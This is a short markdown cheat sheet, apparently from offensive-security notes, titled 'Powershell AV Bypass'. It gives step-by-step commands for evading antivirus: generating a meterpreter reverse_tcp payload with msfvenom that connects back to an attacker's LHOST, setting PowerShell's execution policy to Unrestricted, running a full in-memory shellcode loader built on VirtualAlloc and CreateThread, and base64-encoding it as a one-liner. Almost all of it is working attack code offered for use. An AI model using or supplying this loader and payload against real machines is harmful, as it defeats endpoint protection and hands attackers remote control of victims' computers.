 # Powershell AV Bypass

In order to bypass some AV when executing code in a client machine, we can use various techniques:

## PS In-memory injection

**Step 1:** Generate rever shell payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f powershell
```

**Step 2:** Change  PS currentuser policy:

```bash
#Execute both commands in a cmd
powershell

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

**Step 3:** Make the script:

```bash
#CHANGE PAYLOAD
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc= $PAYLOAD;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

**Note:** We can also make this as a PS one liner script thanks to [this tool](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py). which will encode our payload to base64.

```bash
powershell.exe -E $BASE64TEXT
```
